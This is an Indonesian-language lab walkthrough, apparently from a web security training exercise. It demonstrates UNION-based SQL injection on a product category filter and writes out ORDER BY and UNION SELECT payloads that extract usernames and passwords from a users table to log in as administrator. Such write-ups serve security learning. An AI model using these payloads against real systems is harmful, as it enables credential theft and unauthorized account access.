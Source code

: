 #

## Link Resource

## Jawaban + Bukti

![sql](../../img/sqli-union)

### Step-by-step

![sql](../../img/sqli-union/soal.png)

![sql](../../img/sqli-union/lab.png)

1. pada lab kali ini kita diminta untuk melakukan UNION-based SQL injection supaya bisa mengambil data username dan password dari tabel users, lalu login sebagai administrator.

![sql](../../img/sqli-union/burp.png)

2. kemudian kita melakukan intercept requeet di burpsuite

![sql](../../img/sqli-union/test.png)

3. kemudian kita mengganti kolom Gifts menggunakan payload `/filter?category=Gifts'+ORDER+BY+2--` jika tidak error berarti minimal 2 kolom.

![sql](../../img/sqli-union/test2.png)

4. lalu tes union select menggunakan payload `/filter?category=Gifts'+UNION+SELECT+NULL,NULL--` kalau respon normal berarti valid

![sql](../../img/sqli-union/get.png)

5. kemudian ambil data dari tabel users menggunakan payload `/filter?category=Gifts'+UNION+SELECT+username,password+FROM+users--`

![sql](../../img/sqli-union/done.png)

6. lalu kita login mengggunakan username dan password tersebut

### Catatan

- Berhasil mendapatkan username dan password untuk login
